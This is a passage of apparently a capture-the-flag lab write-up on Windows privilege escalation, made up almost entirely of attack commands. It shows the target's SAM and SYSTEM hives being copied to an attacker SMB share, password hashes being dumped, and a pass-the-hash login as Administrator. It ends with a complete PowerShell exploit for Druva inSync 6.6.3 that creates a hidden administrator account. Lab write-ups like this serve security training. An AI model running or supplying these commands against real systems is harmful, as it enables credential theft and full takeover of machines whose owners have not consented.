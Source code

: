 ```shell
#on attacker machine
mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
#creates share named 'public' pointing to 'share' directory
#now we can copy files from Windows machine to attacker machine
```

```shell
#on target Windows machine
copy C:\Users\THMBackup\sam.hive \\10.17.48.136\public\

copy C:\Users\THMBackup\system.hive \\10.17.48.136\public\
```

```shell
#now we can retrieve password hashes
#on attacker machine
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
#dumps hashes

#proceed for Pass-the-Hash attack
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 Administrator@10.10.77.45
#gives Admin access
#flag can be found on Desktop
```

```markdown
1. Get the flag on the Administrator's desktop. - THM{SEFLAGPRIVILEGE}
```

## Abusing Vulnerable Software

```shell
wmic product get name,version,vender
#lists software and versions
```

```ps
#given, the exploit for Druva inSync 6.6.3 vulnerability

$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
